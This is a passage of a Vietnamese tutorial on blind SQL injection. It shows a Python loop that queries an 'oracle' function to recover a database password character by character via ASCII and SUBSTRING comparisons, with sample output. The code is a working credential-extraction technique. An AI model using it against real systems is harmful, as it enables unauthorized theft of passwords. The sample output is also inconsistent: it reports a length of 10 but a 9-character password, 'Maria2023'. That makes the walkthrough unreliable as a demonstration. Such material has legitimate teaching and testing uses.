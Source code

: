 **Hoạt động:**
1. Hàm **`oracle`** gửi truy vấn SQL để kiểm tra xem độ dài mật khẩu có bằng giá trị hiện tại của **`length`** không.
2. Giá trị **`length`** tăng dần cho đến khi truy vấn trả về kết quả **True**.

#### **Kết quả**
Chạy đoạn mã trên, bạn sẽ thấy độ dài của mật khẩu trong cơ sở dữ liệu, ví dụ:
```
[*] Password length = 10
```

---

**Bước 2: Trích xuất từng ký tự của mật khẩu**

Khi đã biết độ dài, chúng ta có thể trích xuất từng ký tự bằng cách sử dụng hàm SQL **`SUBSTRING(column, start, length)`**. Đồng thời, sử dụng **`ASCII(character)`** để chuyển đổi ký tự thành giá trị thập phân.

#### **Ý tưởng**
- Lặp qua từng vị trí trong chuỗi mật khẩu (từ 1 đến `length`).
- Với mỗi vị trí, kiểm tra từng ký tự ASCII (giá trị từ 32 đến 126 – các ký tự có thể in).

#### **Ví dụ triển khai**

```python
import sys

# Trích xuất mật khẩu của mục tiêu
print("[*] Password = ", end='')

# Lặp qua từng vị trí trong mật khẩu
for i in range(1, length + 1):
    # Kiểm tra từng giá trị ASCII trong phạm vi các ký tự có thể in
    for c in range(32, 127):
        if oracle(f"ASCII(SUBSTRING(password,{i},1))={c}"):
            print(chr(c), end='')  # Chuyển giá trị ASCII về ký tự
            sys.stdout.flush()    # Xuất ký tự ngay lập tức
            break  # Kết thúc kiểm tra khi tìm thấy ký tự đúng

print()  # Xuống dòng sau khi hoàn thành
```

---

**Bước 3: Hoạt động của mã**
1. **Kiểm tra từng ký tự ASCII**:
   - Với mỗi vị trí **`i`**, kiểm tra xem giá trị ASCII của ký tự tại vị trí đó có bằng **`c`** hay không.
   - Nếu đúng, in ký tự ra và chuyển sang vị trí tiếp theo.
2. **Hoàn thiện mật khẩu**:
   - Lặp lại cho đến khi trích xuất toàn bộ các ký tự của mật khẩu.

#### **Kết quả**
Khi chạy đoạn mã:
```
[*] Password length = 10
[*] Password = Maria2023
```

---
